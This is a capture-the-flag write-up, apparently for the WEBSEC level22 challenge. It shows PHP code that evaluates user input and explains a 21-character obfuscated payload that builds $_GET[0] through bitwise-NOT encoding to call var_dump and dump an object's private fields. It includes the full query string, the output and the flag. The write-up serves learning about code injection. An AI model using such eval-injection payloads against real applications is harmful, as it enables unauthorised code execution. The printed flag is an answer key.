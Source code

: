 ```yaml
---
layout: default
title: level22
---
```


Here there is a similar challenge to [level14](./level14.md), However, this time we can only use `21` chars, and not `25` chars.

We can see this code:
```php
class A {
    public $pub;
    protected $pro ;
    private $pri;

    function __construct($pub, $pro, $pri) {
        $this->pub = $pub;
        $this->pro = $pro;
        $this->pri = $pri;
    }
}

include 'file_containing_the_flag_parts.php';
$a = new A($f1, $f2, $f3);

unset($f1);
unset($f2);
unset($f3);
```

So, the flag is in `$a`, we just need to somehow print its content and we will get the flag.

We will use the neat trick we saw earlier on [level14](./level14.md), and will use this obfuscated string `${~%A0%B8%BA%AB}{0}`, which basically means `$_GET[0]`.

Then, my idea was to use this as the `function_name`, and send as a param `$a`, and if we will get luck, we might print the content.

so, this is our payload: `${~%A0%B8%BA%AB}{0}($a)`, and we will send as function: `var_dump`, and full query is:
`?code=${~%A0%B8%BA%AB}{0}($a)&0=var_dump`

what happens basically is: 
`eval ("echo $code;")` becomes
`eval ("echo $_GET[0]($a);")` becomes
`eval("echo var_dump($a);")`, and here you can see what happens:
```php
class A {
    public $pub="very";
    protected $pro="big";
    private $pre="secret";
}
$a = new A();

eval('echo var_dump($a);');
```
* output
> object(A)#1 (3) {
  ["pub"]=>
  string(4) "very"
  ["pro":protected]=>
  string(3) "big"
  ["pre":"A":private]=>
  string(6) "secret"
}


![FLAG image](./images/level22.png)

**Flag:** ***`WEBSEC{But_I_was_told_that_OOP_was_flawless_and_stuff_:<}`*** 
